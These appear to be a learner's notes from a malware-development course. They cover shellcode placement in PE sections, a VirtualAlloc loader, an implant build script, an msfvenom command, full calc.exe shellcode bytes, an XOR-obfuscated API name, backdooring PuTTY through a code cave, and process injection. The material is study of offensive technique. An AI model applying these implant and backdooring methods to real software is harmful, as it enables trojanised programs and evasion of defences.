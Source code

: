 Hasherzade - creates really interesting tools.

6 different section -

.text

.rdata

.data

.pdata

.rsrc

.reloc


dumpbin in windows also performs the same activity as the metadata

 headers - metadata
 section - content of PE

we can make dll through clang
`
//cl.exe /D_USRDLL /D_WINDLL stand_in_app.cpp /MT /link /DLL /OUT:implant.dll`

### places to put your payload

in order to put shellcode in text section we need to put it in someplace like `.text` section that is the main program.

to put it in data we need to tell the compiler that `.shellcode` is read only memory

to put in `.rsrc` section,  we need to use certain api calls to call the shellcoden 

### putting payload in  data section

our variable ended in the data section because we delared it as a global variable.

![](control_to_debugger.png)

looking at the address
38a000 addr of payload
7d0000 exec memory address

### putting into text section

you need to put your payload inside main itself.

addr of payload      : 0x006FFB8C
exec_mem addr        : 0x00740000

Hit me!

after changin it ot (voiid *)

addr of payload      : 0x0113FDE8
exec_mem addr        : 0x01160000

Address  Data       
00940001 90 90 CC C3
00B63019 90 90 CC C3


looking at all addresses we got

```cpp
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n",  "addr of void * payload", (void *)payload);
	printf("%-20s : 0x%-016p\n", "payload & addr", &payload);
	printf("%-20s : 0x%-016p\n", "payload addr", payload);

	printf("%-20s : 0x%-016p\n", "exec_mem void * addr", (void *)exec_mem);
	printf("%-20s : 0x%-016p\n", "exec_mem  addr", exec_mem);
	printf("%-20s : 0x%-016p\n", "exec_mem &  addr", &exec_mem);

```
   
```
addr of void * payload : 0x009EF7F8
payload & addr       : 0x009EF7F8
payload addr         : 0x009EF7F8
exec_mem void * addr : 0x00D40000
exec_mem  addr       : 0x00D40000
exec_mem &  addr     : 0x009EF7F0

Hit me!
```

compile bat -

compiling
```
@ECHO OFF
rc resources.rc
cvtres /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

resources section
``
#include "resources.h"

FAVICON_ICO RCDATA calc.ico

```

resources.h - `#define calc_ico 100`

create a calc.ico - calc.ico has execuatable code for meterpreter in calc.exe.

The shellcode ot spawn calc.exe - `msfvenom -p windows/exec CMD=calc.exe -b "x00" -f py`

### video 15

```
//from https://packetstormsecurity.com/files/156478/Windows-x86-Null-Free-WinExec-Calc.exe-Shellcode.html

char shellcode[] =
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"

```

In video 15 we are trying to write our own vutual protect function in order to make it work.

ciphertext for VirtualProtect - `{ 0x17, 0x2b, 0x31, 0x30, 0x30, 0x27, 0x2b, 0x18, 0x3b, 0x25, 0x3f, 0x29, 0x2e, 0x3a };`

### video 16

backdooring PE files - patching

methods -
 code cave, new section and extending section in code itself.

### video 17

fully done in 
backdooring putty -

attach the exe to the debugger and look in text section for empty spaces like 000

for 32 bit putty:

002D5CA | E8 9A020000              | call putty.2D5F3F                       |

code cave address : 0x62197D34

002D5F3 | 8B0D 74103200            | mov ecx,dword ptr ds:[321074]           | ecx:EntryPoint
002D5F4 | 56                       | push esi                                | esi:EntryPoint
002D5F4 | 57                       | push edi                                | edi:EntryPoint
002D5F4 | BF 4EE640BB              | mov edi,BB40E64E                        | edi:EntryPoint
002D5F4 | BE 0000FFFF              | mov esi,FFFF0000                        | esi:EntryPoint
002D5F5 | 3BCF                     | cmp ecx,edi                             | ecx:EntryPoint, edi:EntryPoint
002D5F5 | 74 04                    | je putty.2D5F59                         |
002D5F5 | 85CE                     | test esi,ecx                            | esi:EntryPoint, ecx:EntryPoint
002D5F5 | 75 26                    | jne putty.2D5F7F                        |

`\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2\x52\xff\xd0`

call that brings up calculator - 62197DE | E8 87FFFFFF              | call comctl32.62197D7B                  |

it is not working th epatching is not happening properly for the executed program, even after saving patches calculator is not called.
need to try it in the ovf tommorrow.

### video 18

code injection

from our process we put the shellcode in some target process like explorer.exe 

you allocate memory and then execute shellcode.

not able to write the shellcode properly with aes.